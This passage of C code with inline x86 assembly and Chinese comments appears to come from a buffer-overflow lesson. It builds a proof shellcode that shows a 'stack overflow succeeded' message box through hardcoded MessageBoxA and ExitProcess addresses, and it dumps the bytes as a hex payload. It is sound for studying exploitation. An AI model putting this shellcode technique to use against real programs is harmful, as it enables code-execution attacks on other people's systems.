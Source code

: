```c
		mov byte ptr [ebp-09h],0B9h
		mov byte ptr [ebp-08h],0A6h
		mov byte ptr [ebp-07h],0D2h
		mov byte ptr [ebp-06h],0E7h
		mov byte ptr [ebp-05h],0B3h
		mov byte ptr [ebp-04h],0F6h
		mov byte ptr [ebp-03h],021h
		mov byte ptr [ebp-02h],cl	// 字符串'0'结尾

		// 在调用MessageBoxA前，将其所需参数准确入栈
		// 参数入堆栈的次序是从后向前(最后参数先入栈，第一参数最后入栈)
		push ecx			// 第四参数(对话框风格)　0　入栈
		lea eax, [ebp-0Fh]	
		push eax			// 第三参数(对话框标题)　堆栈成功溢出! 入栈
		lea eax, [ebp-14h]
		push eax			// 第二参数(显示文本)　^o^..堆栈成功溢出!　入堆栈
		push ecx			// 第一参数(窗体句柄)　0 入栈

		// 调用MessageBoxA函数并执行
		// 请在以下代码xxxxxxxx处填写MessageBoxA函数的绝对内存地址
		mov dword ptr [ebp-20h], 77E4D8DEh
		// 调用MessageBoxA
		call dword ptr [ebp-20h]	

		// 调用ExitProcess程序退出
		// 请在以下代码yyyyyyyy处填写ExitProcess函数的绝对内存地址
		mov dword ptr [ebp-30h],7C813039h
		// 调用ExitProcess
		call dword ptr [ebp-30h]	

		// 恢复堆栈原始状态(此处不会被执行)
		mov esp,ebp		// 恢复堆栈栈顶指针
		pop ecx			// 恢复ecx寄存器指针
		pop ebp			// 恢复堆栈帧基址指针
	}

	return 0;
}


int main()
{  
    // 使用程序获取地址内容，使用时注意应只保留汇编部分
	int i = 0;
    unsigned char pData = (unsigned char )asm;
    //int nLength = 177; 
	int nLength = (unsigned long)main - (unsigned long)asm;
    for (i = 0; i < nLength; i++)
    {
        printf("0x%02x, ", pData[i]);
    }
}
```
